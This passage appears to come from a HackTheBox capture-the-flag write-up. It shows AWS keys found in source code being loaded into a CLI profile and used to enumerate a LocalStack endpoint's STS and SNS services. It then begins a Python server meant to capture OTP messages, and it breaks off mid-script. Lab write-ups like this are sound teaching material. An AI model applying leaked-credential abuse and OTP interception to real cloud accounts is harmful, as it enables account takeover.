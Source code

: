```
# Initialize clients
s3 = boto3.client('s3', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_key_id)
sns = boto3.client('sns', region_name=region, endpoint_url='http://cloud.htb',aws_access_key_id=access_key,aws_secret_access_key=secret_access_key_id)
```

Great, we got AWS credentials. We also see that it is using a specific endpoint, probably with [LocalStack](https://localstack.cloud/).

Let’s set our `/etc/hosts` with `10.129.227.204 cloud.htb`, and set our aws profile:
```
$ tail -n2 ~/.aws/config
[profile htb_trade]
region = us-east-2

$ tail -n3 ~/.aws/credentials
[htb_trade]
aws_access_key_id = AKIA5M34BDN8GCJGRFFB
aws_secret_access_key = cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn

$ export AWS_PROFILE=htb_trade
```

We can now interact with the LocalStack:

```
$ aws --endpoint-url=http://cloud.htb sts get-caller-identity
{
    "UserId": "AKIAIOSFODNN7DXV3G29",
    "Account": "000000000000",
    "Arn": "arn:aws:iam::000000000000:user/tom"
}
```

Since it is using SNS, that is probably how the OTP is transmitted to the user:

```
$ aws --endpoint-url=http://cloud.htb sns list-topics
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

Indeed!

After few tries, we setup a [local web server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) that displays the body of POST requests received, on the VPN IP address:
```
$ cat test.py
#!/usr/bin/env python3
"""
Very simple HTTP server in python for logging requests
Usage::
    ./server.py [<port>]
"""
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
```